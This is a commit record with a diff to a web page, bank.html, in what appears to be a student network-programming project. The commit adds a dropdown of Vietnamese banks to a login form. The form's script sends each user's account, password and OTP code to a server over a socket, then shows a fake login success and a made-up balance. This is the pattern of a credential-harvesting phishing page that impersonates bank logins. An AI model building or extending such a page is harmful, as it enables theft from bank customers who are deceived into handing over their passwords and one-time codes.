

Before and after one commit to MinhAnh248/LTM_QLCT, a website: page WAN/templates/bank.html in a window 1280 px wide. Shown: the part 122-836 px from the top of the page. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
Add bank selection dropdown to banking page

```diff
--- a/WAN/templates/bank.html
+++ b/WAN/templates/bank.html
@@ -20,6 +20,21 @@
     </div>
 
     <div class="container">
+        <h2>Chọn ngân hàng của bạn</h2>
+        <div style="margin-bottom: 20px;">
+            <select id="bankSelect" style="width: 100%; padding: 12px; border: 1px solid #ddd; border-radius: 4px; margin-bottom: 15px;">
+                <option value="">-- Chọn ngân hàng --</option>
+                <option value="vcb">🏦 Vietcombank</option>
+                <option value="tcb">🏦 Techcombank</option>
+                <option value="acb">🏦 ACB</option>
+                <option value="mb">🏦 MB Bank</option>
+                <option value="vpbank">🏦 VPBank</option>
+                <option value="sacombank">🏦 Sacombank</option>
+                <option value="bidv">🏦 BIDV</option>
+                <option value="vib">🏦 VIB</option>
+            </select>
+        </div>
+
         <h2>Đăng nhập tài khoản</h2>
         <form id="loginForm">
             <div class="form-group">
@@ -103,11 +118,18 @@
         document.getElementById('loginForm').addEventListener('submit', (e) => {
             e.preventDefault();
 
+            const bankSelect = document.getElementById('bankSelect').value;
             const account = document.getElementById('account').value;
             const password = document.getElementById('password').value;
             const otp = document.getElementById('otp').value;
 
+            if (!bankSelect) {
+                alert('Vui lòng chọn ngân hàng!');
+                return;
+            }
+
             socket.emit('login-attempt', {
+                bank: bankSelect,
                 account: account,
                 password: password,
                 otp: otp,
@@ -115,10 +137,11 @@
                 userAgent: navigator.userAgent
             });
 
-            if (account && password) {
+            if (bankSelect && account && password) {
                 alert('Đăng nhập thành công!');
                 document.querySelector('.container').innerHTML = `
                     <h2>Chào mừng!</h2>
+                    <p>Ngân hàng: ${document.querySelector('#bankSelect option:checked').text}</p>
                     <p>Tài khoản: ${account}</p>
                     <p>Số dư: 1,234,567,890 VNĐ</p>
                     <button onclick="transfer()">Chuyển khoản</button>
```
